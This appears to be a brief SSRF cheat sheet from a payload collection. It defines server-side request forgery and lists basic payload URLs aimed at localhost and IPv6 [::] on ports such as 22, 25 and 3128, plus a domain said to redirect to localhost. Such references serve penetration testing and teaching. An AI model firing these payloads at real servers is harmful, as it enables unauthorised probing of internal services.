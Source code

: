 # Server-Side Request Forgery 
Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on behalf of him.	

## Exploit

Basic SSRF v1
```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
```

Basic SSRF v2
```
http://localhost:80
http://localhost:443
http://localhost:22
```

Bypass localhost with [::]
```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

Bypass localhost with a domain redirecting to locahost
```
http://n-pn.info
```

## Thanks to
* 